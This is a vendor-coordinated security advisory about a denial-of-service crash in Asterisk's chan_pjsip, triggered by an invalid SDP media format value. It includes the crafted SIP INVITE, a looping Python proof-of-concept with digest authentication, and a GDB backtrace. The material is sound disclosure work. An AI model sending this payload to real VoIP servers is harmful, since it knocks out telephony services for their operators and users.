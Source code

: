 # Segmentation fault occurs in Asterisk with an invalid SDP media format description

- Authors:
    - Alfred Farrugia <alfred@enablesecurity.com>
    - Sandro Gauci <sandro@enablesecurity.com>
- Latest vulnerable version: Asterisk 15.2.0 running `chan_pjsip`
- References: AST-2018-002
- Enable Security Advisory: <https://github.com/EnableSecurity/advisories/tree/master/ES2018-03-asterisk-pjsip-sdp-invalid-media-format-description-segfault>
- Vendor Advisory: <http://downloads.asterisk.org/pub/security/AST-2018-002.html>
- Tested vulnerable versions: 13.10.0, 15.1.3, 15.1.4, 15.1.5, 15.2.0
- Timeline:
    - Report date: 2018-01-15
    - Vendor patch made available to us: 2018-02-05
    - Vendor advisory published: 2018-02-21
    - Enable Security advisory: 2018-02-22

## Description

A specially crafted SDP message body with an invalid media format description causes a segmentation fault in asterisk using `chan_pjsip`.

## Impact

Abuse of this vulnerability leads to denial of service in Asterisk when `chan_pjsip` is in use.

## How to reproduce the issue

The following SIP message was used to reproduce the issue:

```
INVITE sip:5678@127.0.0.1:5060 SIP/2.0
To: <sip:5678@127.0.0.1:5060>
From: Test <sip:5678@127.0.0.1:5060>
Call-ID: 5493d4c9-8248-4c26-a63c-ee74bcf3e1e8
CSeq: 2 INVITE
Via: SIP/2.0/UDP 172.17.0.1:10394;branch=z9hG4bK5493d4c9-8248-4c26-a63c-ee74bcf3e1e8
Contact: <sip:5678@172.17.0.1>
Content-Type: application/sdp
Content-Length: 115

v=0
o=- 1061502179 1061502179 IN IP4 172.17.0.1
s=Asterisk
c=IN IP4 172.17.0.2
m=audio 17002 RTP/AVP 4294967296
```


The problematic SDP section is:

```
m=audio 17000 RTP/AVP 4294967296
```


Notes: 

- authentication may be required 
- the destination SIP address should match a valid extension in the dialplan.

To facilitate this process we wrote the following python program to reproduce this issue:

```python
import socket
import re
import md5
import uuid

SERVER_IP = "127.0.0.1"
SERVER_PORT = 5060
UDP_IP = "0.0.0.0"
UDP_PORT = 13940
USERNAME = "5678"
PASSWORD = "5678"
INVITE_USERNAME = "5678"

sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
sock.bind((UDP_IP, UDP_PORT))

while True:
    callid = str(uuid.uuid4())

    fmt = 4294967296

    sdpbody = "v=0\r\n" \
        "o=- 1061502179 1061502179 IN IP4 172.17.0.1\r\n" \
        "s=Asterisk\r\n" \
        "c=IN IP4 172.17.0.2\r\n" \
        "m=audio 17002 RTP/AVP %s" % fmt

    msg="INVITE sip:%s@%s:%i SIP/2.0\r\n" \
        "To: <sip:%s@%s:%i>\r\n" \
        "From: Test <sip:%s@%s:%s>\r\n" \
        "Call-ID: %s\r\n" \
        "CSeq: 2 INVITE\r\n" \
        "Via: SIP/2.0/UDP 172.17.0.1:10394;branch=z9hG4bK%s\r\n" \
        "Contact: <sip:%s@172.17.0.1>\r\n" \
        "Content-Type: application/sdp\r\n" \
        "{{AUTH}}" \
        "Content-Length: %i\r\n" \
        "\r\n" % (
            INVITE_USERNAME, SERVER_IP, SERVER_PORT,
            INVITE_USERNAME, SERVER_IP, SERVER_PORT,
            USERNAME, SERVER_IP, SERVER_PORT,
            callid, callid,
            USERNAME, len(sdpbody)
            ) + \
        sdpbody

    sock.sendto(msg.replace("{{AUTH}}", ""), (SERVER_IP, SERVER_PORT))

    data, addr = sock.recvfrom(10240)

    if data.startswith("SIP/2.0 401"):
        for line in data.split('\r\n'):
            if line.startswith("WWW-Authenticate"):
                content = line.split(':', 2)[1].strip()
                realm = re.search("realm=\"([a-z]+)\"", content).group(1)
                nonce = re.search("nonce=\"([a-z0-9\/]+)\"", content).group(1)
                ha1 = md5.new(USERNAME + ":" + realm + ":" + PASSWORD).hexdigest()
                uri = "sip:%s:%i" % (SERVER_IP, SERVER_PORT)
                ha2 = md5.new("INVITE:" + uri).hexdigest()
                r = md5.new(ha1 + ":" + nonce + ":" + ha2).hexdigest()

                auth = "Authorization: Digest username=\"%s\"," % (USERNAME) + \
                    "realm=\"%s\"," % (realm) + \
                    "nonce=\"%s\"," % (nonce) + \
                    "uri=\"%s\"," % (uri) + \
                    "response=\"%s\"," % (r) + \
                    "algorithm=md5\r\n"

    sock.sendto(msg.replace("{{AUTH}}", auth), (SERVER_IP, SERVER_PORT))
```

The loop is required since a crash might not occur immediately.

This security issue was discovered through the use of simple fuzzing with [Radamsa](https://github.com/aoh/radamsa) and our internal toolset.

### GDB backtrace result

```
gdb --args /opt/asterisk/sbin/asterisk -fcvvv

[Jan  2 16:07:36] DEBUG[45]: res_pjsip_session.c:743 handle_negotiated_sdp_session_media: Applied negotiated SDP media stream 'audio' using audio SDP handler
[Jan  2 16:07:36] ERROR[45]: pjproject:0 <?>: 	              except.c .!!!FATAL: unhandled exception PJLIB/No memory!


Thread 26 "asterisk" received signal SIGSEGV, Segmentation fault.
[Switching to Thread 0x7ffff0297700 (LWP 45)]
__longjmp_chk (env=env@entry=0x0, val=val@entry=1) at ../setjmp/longjmp.c:32
32	../setjmp/longjmp.c: No such file or directory.
(gdb) bt
#0  __longjmp_chk (env=env@entry=0x0, val=val@entry=1) at ../setjmp/longjmp.c:32
#1  0x00007ffff78ed4ae in pj_throw_exception_ (exception_id=1) at ../src/pj/except.c:54
#2  0x00007ffff7868070 in pool_callback (pool=<optimized out>, size=<optimized out>) at ../src/pjsip/sip_endpoint.c:143
#3  0x00007ffff78f1a93 in pj_pool_create_block (size=1407375809856000, pool=0x7fff8c002c90) at ../src/pj/pool.c:63
#4  pj_pool_allocate_find (pool=0x7fff8c002c90, size=1407375809852724) at ../src/pj/pool.c:138
#5  0x00007ffff78fbb75 in pj_strdup (pool=pool@entry=0x7fff8c002c90, dst=dst@entry=0x7fff8c027638, src=src@entry=0x7fff8c025638) at ../include/pj/string_i.h:41
#6  0x00007ffff78b287e in pjmedia_sdp_media_clone (pool=pool@entry=0x7fff8c002c90, rhs=0x7fff8c025608) at ../src/pjmedia/sdp.c:691
#7  0x00007ffff78b4069 in pjmedia_sdp_session_clone (pool=pool@entry=0x7fff8c002c90, rhs=0x7fff8c01cdb8) at ../src/pjmedia/sdp.c:1422
#8  0x00007ffff7847f31 in create_sdp_body (c_sdp=<optimized out>, pool=0x7fff8c002c90) at ../src/pjsip-ua/sip_inv.c:1722
#9  process_answer (inv=inv@entry=0x7fff8c009f28, st_code=st_code@entry=200, local_sdp=local_sdp@entry=0x0, tdata=0x7fff8c002d38, tdata=0x7fff8c002d38) at ../src/pjsip-ua/sip_inv.c:2257
#10 0x00007ffff7848681 in pjsip_inv_answer (inv=0x7fff8c009f28, st_code=st_code@entry=200, st_text=st_text@entry=0x0, local_sdp=local_sdp@entry=0x0, p_tdata=p_tdata@entry=0x7ffff0296d10) at ../src/pjsip-ua/sip_inv.c:2393
#11 0x00007fff6b0f8f77 in answer (data=0x7fff8c00b298) at chan_pjsip.c:660
#12 0x00007ffff17cb180 in sync_task (data=0x7ffff290c510) at res_pjsip.c:4270
#13 0x00000000005fb3be in ast_taskprocessor_execute (tps=tps@entry=0x1dd6298) at taskprocessor.c:963
#14 0x0000000000602610 in execute_tasks (data=0x1dd6298) at threadpool.c:1322
#15 0x00000000005fb3be in ast_taskprocessor_execute (tps=0x1a401b8) at taskprocessor.c:963
#16 0x0000000000602af0 in threadpool_execute (pool=0x1ae0e88) at threadpool.c:351
#17 worker_active (worker=0x7fff94000948) at threadpool.c:1105
#18 worker_start (arg=arg@entry=0x7fff94000948) at threadpool.c:1024
#19 0x000000000060d4bd in dummy_start (data=<optimized out>) at utils.c:1257
#20 0x00007ffff5e3d6ba in start_thread (arg=0x7ffff0297700) at pthread_create.c:333
#21 0x00007ffff54263dd in clone () at ../sysdeps/unix/sysv/linux/x86_64/clone.S:109
(gdb) 
```

## Solutions and recommendations

Apply the patch issued by Asterisk at <http://www.asterisk.org/security> or upgrade to the latest release.

## About Enable Security

[Enable Security](https://www.enablesecurity.com) provides Information Security services, including Penetration Testing, Research and Development, to help protect client networks and applications against online attackers.

## Disclaimer

The information in the advisory is believed to be accurate at the time of publishing based on currently available information. Use of the information constitutes acceptance for use in an AS IS condition. There are no warranties with regard to this information. Neither the author nor the publisher accepts any liability for any direct, indirect, or consequential loss or damage arising from use of, or reliance on, this information.
